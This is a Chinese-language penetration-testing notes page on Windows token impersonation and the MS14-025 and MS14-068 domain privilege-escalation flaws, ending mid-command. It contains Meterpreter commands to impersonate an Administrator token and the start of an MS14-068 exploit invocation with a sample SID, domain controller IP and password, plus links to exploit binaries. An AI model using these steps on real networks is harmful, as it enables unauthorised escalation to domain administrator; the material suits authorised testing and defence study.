 **Windows Access Token 令牌假冒**

当用户注销后，系统将会使主令牌切换为模拟令牌，不会将令牌清除，只有在重启机器后才会清除。

可以使用多种工具查看目前系统上存在的模拟令牌:
- Incognito
- Powershell - Invoke-TokenManipulation.ps1
- Cobalt Strike - steal_token

- MSF Moudle
    ```
    getsystem
    load incognito meterpreter > list_tokens -u
    impersonate_token "PAYLOADS\\Administrator”
    ```

**MS14-025**
- 相关文章
    - [Exploiting "Group Policy Preferences" AKA MS14-025 in windows environment to gain Admin user password.](https://github.com/incredibleindishell/Windows-AD-environment-related/blob/master/Exploiting-GPP-AKA-MS14_025-vulnerability/README.md)
    - [Hack The Box - Active](https://www.jaiminton.com/HTB/Active/)
    - [MS14-025: Vulnerability in Group Policy Preferences could allow elevation of privilege: May 13, 2014](https://support.microsoft.com/en-us/help/2962486/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevati)

**MS14-068 & CVE-2014-6324**
- 简介

    ms14-068 漏洞是 KDC 服务中的 Windows 漏洞，是由 PAC 认证错误引起，导致域内普通用户可以在 Kerberos TGT 中加入伪造的凭据，从域用户提升到域管理员权限。在执行 ms14-068 漏洞之前，需要通过 systeminfo 看目标机器是否打补丁 kb3011780，如果没打就可以尝试使用该方法进行域提权。

- 影响版本
    - Windows 7 SP1
    - Windows 8.1
    - Windows RT 8.1
    - windows vista
    - Windows Server 2003 SP2
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1
    - Windows Server 2012
    - Windows Server 2012 R2

- 相关文章
    - [MS14-068域权限提升漏洞总结](https://xz.aliyun.com/t/218)

- POC | Payload | exp
    - [windows-kernel-exploits/MS14-068/](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)
    - [abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe)

        登录普通域用户 whoami/user 获取 sid

        退出域用户，登录本地用户
        ```bash
        MS14-068.exe -u test@test.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.1.1 -p Admin123
